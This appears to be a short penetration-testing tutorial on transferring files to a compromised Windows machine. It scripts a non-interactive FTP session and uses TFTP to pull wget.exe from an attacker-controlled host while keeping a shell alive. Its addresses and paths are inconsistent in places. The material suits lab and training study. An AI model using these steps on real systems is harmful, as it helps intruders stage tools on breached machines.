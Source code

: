 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.



## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most  likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp –v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srf/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```
